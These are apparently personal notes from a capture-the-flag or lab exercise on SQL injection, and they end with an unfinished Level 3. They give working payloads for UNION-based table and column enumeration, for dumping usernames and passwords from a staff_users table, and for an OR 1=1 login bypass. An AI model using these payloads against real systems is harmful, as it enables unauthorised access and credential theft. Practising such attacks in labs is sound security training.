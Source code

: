 ## SQLI

### Level 1:

### Step 1: check vulnerability by using ' or "

### Step 2: enumerating the vulnerability: 1 UNION SELECT 1 , 1 UNION SELECT 1,2 ,1 UNION SELECT 1,2,3

### Step 3: enumerating tables: 0 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables WHERE table_schema = 'sqli_one'

### Step 4: enumerating columns: 0 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns WHERE table_name = 'staff_users'

### Step 5: exploiting the vulnerability: 0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users


### Level 2:

### Exploit: select * from users where username='qw' and password='' OR 1=1;' LIMIT 1;


### Level 3:


### Step 1: enumerating the vulnerability: 1 UNION SELECT 1 , 1 UNION SELECT 1,2 ,1 UNION SELECT 1,2,3

### Step 2:
